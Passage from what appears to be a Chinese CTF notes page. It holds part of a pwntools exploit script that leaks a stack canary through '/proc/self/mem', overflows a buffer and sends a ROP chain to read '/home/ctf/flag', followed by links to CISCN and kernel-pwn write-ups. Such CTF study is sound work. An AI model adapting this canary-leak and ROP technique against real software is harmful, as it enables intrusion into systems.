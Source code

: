 ```
for i in range(0,24):
	p.recvuntil('Exit')
	p.sendline('3')
	p.recvuntil('get?')
	p.sendline('100000')
	p.recvuntil('something:\n')
	tmp = p.recvuntil('1.Find ')[:-7]
	if '/mem' in tmp:
		print '[+++] find'
		print tmp.split('/proc/self/mem')[0]
		canary = u64(tmp.split('/proc/self/mem')[0][-0x48:-0x40])
		break

stack_address = stack_end - stack_guess - 24*100000 + i *100000 + len(tmp.split('/proc/self/mem')[0])

if canary==0:
	print '[-] fail'
	exit(0)
print '[+] canary :',hex(canary)
print '[+] stack :',hex(stack_address)

p.recvuntil('Exit')
p.sendline('1')
p.recvuntil('finding?')
p.sendline('/proc/self/mem'+'\x00'*(0x18-14)+p64(stack_address-56)) # overflow to v8 
p.recvuntil('Exit')
p.sendline('4')
p.recvuntil('content')
# rop -> open(‘/home/ctf/flag’) read(6,buf,0x100) puts(buf)
rop =p64(pie+0x0000000000001823)+p64(stack_address-56+0x100)+p64(pie+0x0000000000001821)+p64(0)+p64(0)+p64(pie+elf.symbols['open'])+p64(pie+0x0000000000001823)+p64(6)+p64(pie+0x0000000000001821)+p64(stack_address-56+0x100)+p64(stack_address-56+0x100)+p64(pie+elf.symbols['read'])+p64(pie+0x0000000000001823)+p64(stack_address-56+0x100)+p64(pie+elf.symbols['puts'])
rop +='a'*(0x100-len(rop))  # ljust 0x100
rop += '/home/ctf/flag\0'
p.sendline(rop)

p.interactive()
'''
0x0000000000001823 : pop rdi ; ret
0x0000000000001821 : pop rsi ; pop r15 ; ret
'''
```

P4anda师傅的ciscn final 记：
+ http://p4nda.top/2018/07/27/CISCN-Final/
+ http://p4nda.top/2018/07/20/0ctf-baby/      (KERNEL PWN)
+ http://p4nda.top/2018/07/02/patch-in-pwn/    (patch 小记)

### 赛博地球杯 play
